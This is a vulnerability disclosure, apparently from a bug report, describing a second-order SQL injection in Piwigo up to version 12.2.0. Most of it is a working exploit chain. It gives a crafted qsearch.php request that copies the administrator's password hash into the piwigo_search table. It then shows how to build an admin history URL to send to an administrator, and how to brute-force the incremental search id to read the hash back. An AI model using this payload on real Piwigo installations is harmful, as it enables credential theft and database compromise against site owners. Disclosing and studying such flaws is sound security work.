## Second-Order SQL Injection Vulnerabilities in Piwigo 12.2.0
<u>**Affected Version : <=12.2.0**</u>

A Second-Order SQL injection exists in Piwigo before 12.2.0. 
An attacker can use the function of search to insert some sql injection payload into the piwigo_search table and then use the id retrieved to generate an evil URL. 
 When an administrator open the URL,the sql injection will be triggered. An attacker can exploit the vulnerabilities to gain access to the connected MySQL database.

**Steps to Reproduce:**

**Step 1**
 
Request `http://127.0.0.1/qsearch.php?q[test'),((select concat("a:1:{s:1:\"q\";s:41:\"password:",(select mid(password,1,32) from piwigo_users where id%3d1),"\";}")))%23]=1`

And then it will be redirected to `http://127.0.0.1/index.php?/search/${id}`

 Record the value of the id.



**Step 2**
 
Generate the URL `http://127.0.0.1/admin.php?page=history&search_id=${id}&user_id=1` (Replace the ${id} into the id that we have gotten last step).

And then send the URL to the administrator.


 
**Step 3**
 
When an administrator open the URL above,a piece of data that contains the password of the administrator account will be inserted into the piwigo_search table.If we want to retrieve the data,we need to know the id of the data that has been inserted into the piwigo_search table.Because the id is incremental,we can just bruteforce it.


Then we  request `http://172.20.10.8/index.php?/search/${id}` to  retrieve the password of the administrator.
 
![2](21.png)
 
